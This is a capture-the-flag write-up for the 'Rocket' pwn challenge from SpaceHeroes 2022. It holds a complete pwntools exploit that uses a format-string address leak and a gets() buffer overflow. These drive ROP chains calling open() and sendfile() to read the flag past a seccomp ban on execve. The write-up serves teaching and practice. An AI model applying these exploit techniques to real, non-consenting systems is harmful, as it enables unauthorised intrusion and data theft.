

# Rocket

Category: pwn

Endpoint: 0.cloud.chals.io:13163

Files: A single executable called "pwn-rocket"


---
### Solution:

After running the executable produced output similar to this:
```
[msaw328]$ ./pwn-rocket
Please authenticate >>>
Hello
<<< Welcome: Hello
Welcome To Mission Control. Tell me to do something >>>
Launch
<<< Invalid Command.
[msaw328]$
```
It asked for input and a command to perform. I did not get a response other than "Invalid Command" to any commands i typed in, so i decided to analyze it in Ghidra instead. The decompilation of the `main()` function looked like this:

```c
undefined8 main(void)

{
  secure();
  vuln();
  return 0;
}
```

The second function's name hinted where the good stuff might be :) but i decided to inspect the `secure()` function first:

```c
void secure(void)

{
  undefined8 uVar1;
  
  uVar1 = seccomp_init(0x7fff0000);
  seccomp_rule_add(uVar1,0,0x3b,0);
  seccomp_load(uVar1);
  return;
}
```

Seccomp is a mechanism in Linux kernel which allows a process to limit the system calls it is allowed to perform. The `seccomp_*()` functions come from libseccomp which provides a nice API that can be used to create filters. These use rules (similarly to a firewall) which describe what actions should Kernel take once a system call arrives. The actions may range from allowing the syscall with no side effects, to killing the process/thread.

This information was important to me, as it meant that i might not be able to execute certain syscalls freely. Sadly, Ghidra did not decode the constants used in functions, so i did it manually. By inspecting the `seccomp.h` header in libseccomp, i was able to find the values which meant "kill the process/thread" when set:

```c
/**
 * Kill the process
 */
#define SCMP_ACT_KILL_PROCESS	0x80000000U

/**
 * Kill the thread
 */
#define SCMP_ACT_KILL_THREAD	0x00000000U
```

Neither of those values matched the default action specified as an argument to `seccomp_init()`. Good news for me, as it meant that the filter was quite permissive. Aside from a small number of system calls (1 to be exact, as suggested by the number of `seccomp_rule_add()` calls on the filter) none should cause the process to terminate. I did not really care about other actions defined by the argument so i went on to inspect the rule itself.

The `seccomp_rule_add()` function accepts four arguments by default:
1. The `scmp_filter_ctx` containing the filter to attach the rule to
2. The action to perform
3. The system call number that this rule matches on
4. The count of additional arguments, which match the rule based on arguments of the system call in addition to the syscall number itself

In this case the system call number was 59 (0x3b in decimal), which meant `execve()`. The number of additional arguments was 0, so arguments passed to the syscall did not matter. Finally, the action flags (second argument) were equal to 0 - the action was `SCMP_ACT_KILL_THREAD`.

Long story short, it meant that i was not able to use `system()` or `execve()` during exploitation of the binary. Afterwards i looked into the `vuln()` function:
```c
void vuln(void)

{
  int iVar1;
  char local_48 [32];
  char local_28 [32];
  
  puts("Please authenticate >>>");
  gets(local_28);
  printf("<<< Welcome: ");
  printf(local_28);
  putchar(10);
  puts("Welcome To Mission Control. Tell me to do something >>>");
  gets(local_48);
  iVar1 = strcmp(local_48,"CPU");
  if (iVar1 == 0) {
    print_cpu_details();
  }
  else {
    iVar1 = strcmp(local_48,"LOGO");
    if (iVar1 == 0) {
      print_logo();
    }
    else {
      puts("<<< Invalid Command.");
    }
  }
  return;
}
```
I have found two commands which the program accepted: CPU nad LOGO. The former printed unimportant CPU information, while the latter printed an ASCII logo with a rocket on it (cute, but i will not show it here as it was quite large). The logo additionally contained two strings in the bottom right corner: 

```c
void print_logo(void)

{
  // ... Many calls to puts() here ...
  puts("M0oxXMMMMMNxoKWMMMMO::kNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM/bin/sh");
  puts("MMMMMMMMMMMMMMMMMMMKONMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMflag.txt");
  return;
}
```
The presence of "/bin/sh" was _clearly_ mocking me (unnecesarily, might i add) due to my inability to call `system()`. The "flag.txt" string on the other hand seemed much more useful so i took note of that.

The actual "vuln" part in the `vuln()` function was twofold:
- The `gets()` call, which would allow me to override the saved %rip
- The `printf()` with user supplied buffer as the first argument, which allowed me to look into the data on the stack

At this time i also decided to run checksec:
```
[msaw328]$ checksec --file=./pwn-rocket 
[*] '/SpaceHeroes2022/pwn/rocket/pwn-rocket'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[msaw328]$
```
which told me that the stack cookie was absent, but the executable was position independent. This made me assume that ASLR was also turned on.

Considering all the findings, the plan i came up with was as follows:

1. Using `printf()` format string vulnerability, find an address on the stack pointing into the binary to find its randomized address
2. Using the Return-oriented programming technique create a ROP chain
3. Use second `gets()` call to write a payload with the ROP chain to the stack

The chain could not be a simple `execve("/bin/sh")` call, so i had to read the flag manually. Normally this would probably be done by a sequence of `open()`, `read()` and `write()` syscalls but i decided to attempt a simplified version using `sendfile()`.

`sendfile()` (system call number 40) allows a data transfer directly from one file descriptor to another. In normal use this increases performance since there is no need to copy data from kernel space to user space. In binary exploitation, however, it fuses two system calls into one, reducing payload size. Additionally, it removes the necessity of having a buffer in memory with RW permissions.

The caveat is that `syscall()` takes four arguments, compared to three arguments necessary for either a `read()` or `write()` call. In addition to that, the fourth argument is the number of bytes to transfer, which is important and cannot be neglected. Because of this, if a `pop %r10;` gadget is not available then `sendfile()` may be hard to use.

To find gadgets for my ROP chain i used both Ghidra and Ropper. In Ghidra there was a number of functions which seemingly served no purpose:



`ignore_me()` called `setbuf()` on standard IO streams while `print_cpu_details()` and `print_logo()` executed the CPU and LOGO commands and did not seem very useful.
At the same time, a number of smaller functions named `ret_*()` and `mov_rocket()` was clearly there to provide necessary gadgets:

```
                mov_rocket():
001014e1 55              PUSH       RBP
001014e2 48 89 e5        MOV        RBP,RSP
001014e5 48 89 f0        MOV        RAX,RSI
001014e8 c3              RET
```

```
                ret_rocket()
0010120c 55              PUSH       RBP
0010120d 48 89 e5        MOV        RBP,RSP
00101210 58              POP        RAX
00101211 c3              RET
```
(Other `ret_*()` functions were constructed similarly)

I gathered these addresses which seemed useful (since the binary is PIE they are all relative!):

```python
GDGT_POP_RAX = 0x0000000000001210
GDGT_POP_RDI = 0x000000000000168b
GDGT_POP_RSI_POP_R15 = 0x0000000000001689
GDGT_POP_RDX = 0x00000000000014be
GDGT_POP_R10 = 0x00000000000014c7
GDGT_POP_R8 = 0x00000000000014d1
GDGT_SYSCALL = 0x00000000000014db

STR_FLAGTXT = 0x2d70 + 'MMMMMMMMMMMMMMMMMMMKONMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMflag.txt'.index('f')
VULN_FUNC = 0x0001531
```

The gadget addresses and `vuln()` function were found mostly using Ropper and Ghidra. "flag.txt" is part of a bigger string so its address is offset by the index of 'f' from the address found using the strings command:

```
[msaw328]$ strings -t x pwn-rocket | grep flag
2d70 MMMMMMMMMMMMMMMMMMMKONMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMflag.txt
```

Afterwards i started experimenting with the format string vulnerability. My goal was to find an address that looked like it could come from a binary. The best way to look that i know is using a format string of form "%n$p" where n is a number. This prints the n-th argument to `printf()` as a **p**ointer. I found a cool address at n = 7:

```
[msaw328]$ ./pwn-rocket 
Please authenticate >>>
%7$p
<<< Welcome: 0x565356d0b606
Welcome To Mission Control. Tell me to do something >>>
...
```
The address looked like it came from the binary - stack addresses usually start with "0x7f" in my experience.

---
#### Disclaimer:
There is one problem here that i did not realise until later. The n that i found the address at heavily depends on the environment/platform. In fact, i wrote the entire exploit using %7$p and it worked _flawlessly_ on my local machine. Once i switched the exploit to target the remote, however, it stopped working. Once i verified my python exploit code and tested a few more times locally i asked the author on discord what could be the case, and they hinted that the binary is running on `kalilinux/kali-rolling` Docker container.

I then downloaded the container locally and ran it in interactive mode:
```
[msaw328]$ docker pull kalilinux/kali-rolling
[msaw328]$ docker run --rm -it --name rocket_pwn kalilinux/kali-rolling /bin/bash
┌──(root㉿c3d7882dba75)-[/]
└─# 
```
After installing python3, pwntools and other necessities inside of the container, i copied my files in there (using another terminal):
```
[msaw328]$ docker cp ./solve.py rocket_pwn:/
[msaw328]$ docker cp ./pwn-rocket rocket_pwn:/
```

And reconstructed steps mentioned below inside of the container. This resulted in different value for n, equal to 6. Off by one error!

Im putting this disclaimer here to put emphasis on meticulous reconstruction of environment and how these little things matter. While i performed all the further steps locally first, i will from now on describe them the way they were done inside of the container as this is the version that gave me the flag.

#### End of disclaimer :)
---

After finding a promising n for the format string vuln, i used gdb to find the offset. I ran `gdb ./pwn-rocket` and enabled ASLR using `aslr on`. Afterwards i set breakpoint at the beginning of `vuln()` using `break vuln` and ran the program using `r`. I then stepped over instructions using `so` (which i believe is not part of standard gdb and comes from the pwndbg extension instead) until the vulnerable `gets()` function, and typed in "%6$p" at input. Again, i skipped over instructions until the binary gave output back to me:

```
pwndbg> 
Temporary breakpoint 17 at 0x55fcc7efb57e
0x558299cca0e0
...
```
I then used `vmmap` (also from pwndbg, but `info proc mappings` from vanilla gdb may also be used for this purpose) to look at the base address of the binary
```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x558299cc9000     0x558299cca000 r--p     1000 0      /SpaceHeroes2022/pwn/rocket/pwn-rocket
    ...
```
After finding both of these values, i calcualted the offset in python as:
```python
BINARY_OFFSET = 0x558299cca0e0 - 0x558299cc9000
```
All that was necessary now was to build the payload and send it to the remote using pwntools. I decided on two separate payloads for no particular reason:
1. First payload would call `open("flag.txt", O_RDONLY)` and i would assume the returned fd to be 3 (based on the fact that 0 1 and 2 are taken by standard IO, but i don't think it is guaranteed to be 3)
2. Afterwards `vuln()` would be called second time, to input another payload
3. Second payload would call `sendfile(1, 3, 0, 100)` which writes 100 bytes from fd 3 to fd 1 (stdout) at offset 0. The number of bytes was chosen as arbitrarily big, as `sendfile()` reads until there is data avilable - 100 is just the upper limit.
4. I would filter the output in search of anything that looks like a flag :)

The exploit starts by initializing pwntools:
```python
from pwn import *

context.arch = 'amd64'
context.terminal = ['konsole', '-e']
```
followed by the addresses mentioned earlier, followed by remote connection and address leak using the format string vuln:
```python
s = remote('0.cloud.chals.io', 13163)

print('PROG OUT:', s.readline())
FMT_STR = b'%6$p'
s.writeline(FMT_STR) # <- This inputs the format string>

print('PROG OUT:', s.readuntil(b':')) # <- This reads until "Welcome:"
addr_leak = s.readline().decode() # <- The rest of the line contains leaked addr
print('ADDR LEAK:', addr_leak)

BINARY_BASE = int(addr_leak.strip(), 16) - BINARY_OFFSET # <- Base address calc

print('BIN BASE LEAK:', hex(BINARY_BASE))
print('VULN:', hex(BINARY_BASE + VULN_FUNC))

print('PROG OUT:', s.readline())
```

Afterwards the first payload can be constructed (notice how every address is offset by the base address of the binary!):
```python
payload = b'A' * 72 # <- Padding until saved %rip, found by trial and error

# First we call open()
payload += p64(BINARY_BASE + GDGT_POP_RDI) # first arg -> filename
payload += p64(BINARY_BASE + STR_FLAGTXT) # set to "flag.txt"

payload += p64(BINARY_BASE + GDGT_POP_RSI_POP_R15) # second arg -> flags
payload += p64(0x0) # 0 -> O_RDONLY
payload += p64(0xdeadbeef) # garbage for r15

payload += p64(BINARY_BASE + GDGT_POP_RDX) # third arg -> mode
payload += p64(0x0) # no mode

payload += p64(BINARY_BASE + GDGT_POP_RAX) # rax contains syscall number
payload += p64(2) # 2 is open()

payload += p64(BINARY_BASE + GDGT_SYSCALL) # perform syscall

payload += p64(BINARY_BASE + VULN_FUNC) # return to vuln()
```

Later, second payload can be constructed and sent during the second call to the `vuln()` function:
```python
# afterwards call sendfile()
payload = b'A' * 72

payload += p64(BINARY_BASE + GDGT_POP_RDI) # first arg -> out_fd
payload += p64(1) # stdout

payload += p64(BINARY_BASE + GDGT_POP_RSI_POP_R15) # second arg -> in_fd
payload += p64(3) # will most likely be 3 after open()
payload += p64(0xdaedbeef)

payload += p64(BINARY_BASE + GDGT_POP_RDX) # third arg -> offset
payload += p64(0)

payload += p64(BINARY_BASE + GDGT_POP_R10) # third arg -> count
payload += p64(100)

payload += p64(BINARY_BASE + GDGT_POP_RAX) # rax contains syscall number
payload += p64(40) # 40 is sendfile

payload += p64(BINARY_BASE + GDGT_SYSCALL) # perform syscall

payload += p64(BINARY_BASE + VULN_FUNC) # return to vuln()

print('PROG OUT:', s.readuntil(b"Please authenticate >>>\n"))
s.writeline(b'test')

print('PROG OUT:', s.read())
print('SENDING PAYLOAD2:', payload)
s.writeline(payload)

s.interactive()
```
In the end i decided to call `s.interactive()` to recieve any leftover output from the remote, but this is not an interactive exploit of the `system("bin/sh")` variety so there is no input to the script.

After running the exploit script i got the flag:
```
[msaw328]$ python solve.py 
[+] Opening connection to 0.cloud.chals.io on port 13163: Done
PROG OUT: b'Please authenticate >>>\n'
PROG OUT: b'<<< Welcome:'
ADDR LEAK:  0x5641ae1530e0

BIN BASE LEAK: 0x5641ae152000
VULN: 0x5641ae153531
PROG OUT: b'Welcome To Mission Control. Tell me to do something >>>\n'
SENDING PAYLOAD: b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x8b6\x15\xaeAV\x00\x00\xb8M\x15\xaeAV\x00\x00\x896\x15\xaeAV\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xef\xbe\xad\xde\x00\x00\x00\x00\xbe4\x15\xaeAV\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x102\x15\xaeAV\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\xdb4\x15\xaeAV\x00\x0015\x15\xaeAV\x00\x00'
PROG OUT: b'<<< Invalid Command.\nPlease authenticate >>>\n'
PROG OUT: b'<<< Welcome: test\nWelcome To Mission Control. Tell me to do something >>>\n'
SENDING PAYLOAD2: b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x8b6\x15\xaeAV\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x896\x15\xaeAV\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\xef\xbe\xed\xda\x00\x00\x00\x00\xbe4\x15\xaeAV\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xc74\x15\xaeAV\x00\x00d\x00\x00\x00\x00\x00\x00\x00\x102\x15\xaeAV\x00\x00(\x00\x00\x00\x00\x00\x00\x00\xdb4\x15\xaeAV\x00\x0015\x15\xaeAV\x00\x00'
[*] Switching to interactive mode
<<< Invalid Command.
shctf{1-sma11-St3p-f0r-mAn-1-Giant-l3ap-f0r-manK1nd}
Please authenticate >>>
[*] Got EOF while reading in interactive
$ 
```

### Flag: `shctf{1-sma11-St3p-f0r-mAn-1-Giant-l3ap-f0r-manK1nd}`
